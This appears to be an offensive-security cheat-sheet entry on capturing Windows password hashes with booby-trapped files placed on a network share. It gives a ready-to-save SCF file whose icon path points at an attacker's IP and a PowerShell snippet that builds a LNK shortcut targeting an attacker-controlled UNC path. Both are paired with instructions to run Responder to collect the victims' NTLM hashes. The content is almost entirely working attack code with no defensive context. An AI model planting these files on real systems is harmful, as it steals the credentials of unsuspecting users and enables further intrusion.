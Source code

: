 ### SCF File

File is executed as soon as a user accesses the share. No longer works on Server 2019 hosts

Save as `@Inventory.scf

```
[Shell]
Command=2
IconFile=\\<your_ip>\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

Start `responder` to capture the users hash

### LNK File:

User needs to click the file to open

```bash
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

Start `responder` to capture the users hash

